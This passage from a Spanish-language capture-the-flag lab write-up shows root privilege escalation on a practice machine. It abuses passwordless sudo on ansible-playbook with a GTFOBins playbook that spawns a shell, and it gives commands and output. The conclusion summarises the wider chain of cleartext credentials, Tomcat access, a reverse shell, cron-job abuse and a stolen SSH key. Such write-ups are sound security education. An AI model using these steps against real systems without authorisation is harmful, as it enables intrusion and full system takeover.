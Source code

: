 Enumerando el sistema en busca de un **vector** para escalar privilegios, me doy cuenta de que el usuario `luis` tiene un permisos asignados:

```bash
luis@seal:~$ sudo -l 
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

Puede ejecutar la herramienta `ansible-playbook` con cualquier argumento y como cualquier usuario.

Busco en [GTFObins](https://gtfobins.github.io/){:target="\_blank"}{:rel="noopener nofollow"} para ver si está contemplado este binario y veo que sí.

![image](https://user-images.githubusercontent.com/67548295/141695348-eea920df-0e3b-4722-a466-3d4ed2c4f73b.png)

Simplemente siguiendo estos pasos conseguiríamos una shell como el usuario `root`

Bien, roteemos esto:

```bash
luis@seal:~$ TF=$(mktemp)
luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~$ sudo -u root /usr/bin/ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] ***************************************************************************************************************

TASK [Gathering Facts] *********************************************************************************************************
ok: [localhost]

TASK [shell] *******************************************************************************************************************

# id    
uid=0(root) gid=0(root) groups=0(root)
```
Una vez en este punto, podremos visualizar la flag `root.txt` en la ruta `/root/root.txt`:

```bash
# cat /root/root.txt	
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# Conclusión

En esta máquina hemos ganado acceso inicial como usuario no privilegiado haciendo uso de unas **credenciales en texto claro** recogidas de un servicio alojado en el puerto `8080`para acceder a un `Apache Tomcat` y ganar acceso mediante una **reverse shell**.
Escalamos privilegios hacia un usuario con más permisos aprovechandonos de una `tarea cron` ejecutada por ese usuario para lograr acceder a su directorio `.ssh` y poder conectarnos usando su clave `id_rsa`.
Finalmente ganamos **control total** del sistema abusando de un permiso que se nos asignaba pudiendo correr el binario `ansible-playbook` como el usuario `root` y generando una shell como el mismo usuario.
